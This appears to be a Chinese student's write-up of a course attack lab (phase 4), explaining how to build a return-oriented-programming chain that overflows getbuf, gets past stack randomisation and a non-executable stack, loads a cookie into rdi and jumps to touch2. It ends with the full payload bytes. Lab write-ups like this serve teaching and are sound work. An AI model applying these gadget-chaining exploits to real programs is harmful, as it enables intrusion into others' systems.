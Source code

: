 ![image-20220617192823945](pic/过程/image-20220617192823945.png)

**理解重点：注意我们的注入的代码的核心思想是：首先是根据当前的getbuf函数ret之后执行我们输入的地址到rip寄存器中，这个时候rip执行一条命令然后执行一条ret，也就是说我们截取的代码必须是ret之前的一条指令，然后只有这样才能不断的获取栈上面的地址值不断的执行地址内存中对应的命令**



之后的实验比较复杂，指导的pdf大致的意思是根据现有的代码，然后节选机器指令使得节选的部分成为自己想要的部分，实现攻击代码。

要求：4和5的部分根据函数start_farm和 end_farm之间的代码进行构造。

1. 将cookie(0x59b997fa)放到rdi寄存器中
2. 跳转到touch2函数

```
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 ac 03 00 00          callq  401b60 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      retq
  4017be:       90                      nop
  4017bf:       90                      nop
```

**此程序应用了栈随机化、栈破坏检测和限制可执行代码区域。也就是说，不能把代码放在栈中了。可以利用程序中原有代码的字节码。**

- 栈随机化：使得程序每次运行时栈的地址都不相同，我们无法得知我们注入的攻击代码的地址，也无法在攻击代码中硬编码栈中的地址。
- 标记内存中的栈段为不可执行：这意味着注入在栈中的代码无法被程序执行。

```
0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```

左面的部分是我们想要的机器代码部分，我们需要在start_farm和 end_farm两个函数之间进行查找我们想要的代码。

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a3 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
